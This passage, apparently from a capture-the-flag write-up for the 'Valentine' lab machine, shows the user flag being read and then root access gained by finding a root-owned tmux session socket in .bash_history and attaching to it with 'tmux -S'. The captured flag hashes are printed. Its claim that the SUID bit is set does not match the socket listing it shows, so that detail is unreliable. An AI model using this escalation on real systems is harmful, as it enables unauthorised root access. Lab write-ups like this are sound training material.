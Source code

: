 ```shell
New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:50:29 2018 from 10.10.14.3
hype@Valentine:~$ 
```

`user.txt` is in a directory `/home/hype/Desktop`.
```shell
hype@Valentine:~$ cat Desktop/user.txt 
e6710a5464769fd5fcd216e076961750
```


## 3. Getting Root
In `.bash_history`, we have some command histories.<br>
`tmux` has been executed several times and we can find a session file `/.devs/dev_sess` was attached.
```shell
hype@Valentine:~$ cat .bash_history

exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess 
exit
```

Take a look at `/.devs/dev_sess`. We can confirm that this is owned by `root` and SUID bit is set.
```shell
hype@Valentine:/.devs$ ls -l
total 0
srw-rw---- 1 root hype 0 Apr 17 12:58 dev_sess
```

Attach the tmux session with this command.<br>
We can achieve a root shell. As always, `root.txt` is in the directory `/root`.
```shell
hype@Valentine:/.devs$ tmux -S /.devs/dev_sess
```
```shell
root@Valentine:/.devs# id
uid=0(root) gid=0(root) groups=0(root)

root@Valentine:/.devs# cat /root/root.txt 
f1bb6d759df1f272914ebbc9ed7765b2
```
